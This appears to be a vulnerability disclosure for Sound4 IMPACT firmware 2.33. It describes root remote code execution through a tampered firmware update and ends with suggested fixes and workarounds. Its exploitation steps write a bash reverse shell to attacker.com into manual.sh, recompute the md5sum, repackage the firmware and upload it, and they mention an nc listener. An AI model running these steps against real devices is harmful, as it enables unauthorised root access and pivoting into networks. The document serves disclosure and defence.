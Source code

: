 # Sound4 IMPACT (Firmware 2.33) - Remote Code Execution (RCE)

## Description

The Sound4 IMPACT web-based management interface is vulnerable to Remote Code Execution (RCE) via a malicious firmware update package. The update mechanism fails to validate the integrity of `manual.sh`, allowing an attacker to inject arbitrary commands by modifying this script and repackaging the firmware.

## Product:
- **Vendor**: Sound4
- **Model**: IMPACT
- **Firmware/Software**: 2.33

## Vulnerability:
- **Type**: Remote Code Execution (RCE)
- **Impact**: Full remote shell access as root via firmware update mechanism.
- **Access Required**: Web-based management interface login

## Vulnerable Endpoints:
- `/settings` → Firmware Upload (Software Update)

## Exploit Summary:
An attacker with access to the web-based admin interface can craft a malicious firmware update package that includes a backdoored `manual.sh` file, leading to remote code execution during the update process.

## Exploitation Steps:

1. **Download the Original Firmware**  
   From the official Sound4 support page:  
https://www.sound4helpdesk.com/pulse-eco-downloads


2. **Extract Firmware**  
```bash
tar -xvf PULSE-AES67-eco_v2.33.tar
```
3. **Modify manual.sh**
Replace or append your reverse shell in manual.sh:
```bash
echo 'bash -i >& /dev/tcp/attacker.com/4444 0>&1' > manual.sh
chmod +x manual.sh
```
4. **Update md5sum File**
Recalculate the checksum and replace it in md5sum:
```bash
md5sum manual.sh 
nano md5sum
```
5. **Prepare Firmware Structure**
Ensure these files are present:

    manual.sh (malicious)

    md5sum

    md5sum.gpg

    versions.sh

    warnings.xml

6. **Repackage Firmware**
```bash
tar -cf PULSE-AES67-eco_v2.33 ./
xz -C crc64 -k PULSE-AES67-eco_v2.33
mv PULSE-AES67-eco_v2.33.xz PULSE-AES67-eco_v2.33.upgbox
```
7. **Upload via Web Interface**

        Login to the web admin interface of the Sound4 device

        Navigate to: Settings → Software Update

        Upload the modified .upgbox file

8. **Trigger and Receive Reverse Shell**
    Once uploaded, the device executes manual.sh, and the reverse shell is triggered.

## Notes:

    Ensure listener is running on your attack machine (e.g., nc -lvnp 4444).

    The vulnerability relies on the firmware verification process trusting the MD5 hash and not validating against a secure signature.

## Proof of Concept (PoC) 
https://github.com/user-attachments/assets/df671105-36a4-49e4-9848-f924573ce573

## Impact

Successful exploitation allows a remote attacker to:

    Execute arbitrary shell commands as root

    Gain persistent access to the device

    Modify system behavior or firmware

    Pivot to internal networks if the device is not properly segmented

## Suggested Fixes

    Implement strict integrity checks (cryptographic signature verification) during firmware upload.

    Restrict upload functionality to trusted administrators only.

    Sanitize and validate manual.sh execution.

## Workarounds

    Disable firmware upload functionality via the web interface if not in use.

    Use access control lists (ACLs) and firewall rules to restrict access to the web interface.

    Monitor firmware integrity by verifying checksums and timestamps regularly.

